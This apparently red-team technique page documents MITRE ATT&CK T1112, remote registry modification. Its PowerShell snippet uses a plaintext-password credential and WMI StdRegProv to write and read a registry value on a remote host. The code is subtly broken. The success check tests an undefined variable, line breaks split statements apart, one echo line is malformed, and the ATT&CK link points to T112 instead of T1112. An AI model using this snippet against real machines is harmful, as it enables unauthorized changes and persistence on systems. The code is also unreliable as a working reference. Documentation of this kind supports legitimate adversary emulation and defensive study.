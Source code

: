 # Modify Registry (Remote Registry Modification)

MITRE ATT&CK Technique: [T1112](https://attack.mitre.org/wiki/Technique/T112)
## Remote Registry via Powershell Manually

    $Username = “Domain\User”
    $Password = “Password” 
    $IPAddress = “10.0.0.1” 
    $RegValue = “blah”
    $KeyName = “fdssdfsdfds” 
    $HKEY_Local_Machine = 2147483650 $Key = “SOFTWARE\Microsoft” 
    $PSS = ConvertTo-SecureString 
    $Password -AsPlainText -Force 
    $Creds = New-Object system.management.automation.PSCredential $Username,$PSS 
    $Reg = Get-WmiObject -List -Namespace root\default -ComputerName
    $IPAddress -Credential $Creds | Where-Object {$_.Name -eq "StdRegProv"} 
    $SendingReg = $Reg.SetExpandedStringValue($HKEY_Local_Machine, $Key, $KeyName, $RegValue)
    If ($SendingResults.Returnvalue -eq 0) {echo “Excellent”} 
    $ReceiveReg = $Reg.GetExpandedStringValue($HKEY_Local_Machine, $Key, $KeyName) 
    echo = $ReceiveReg.sValue
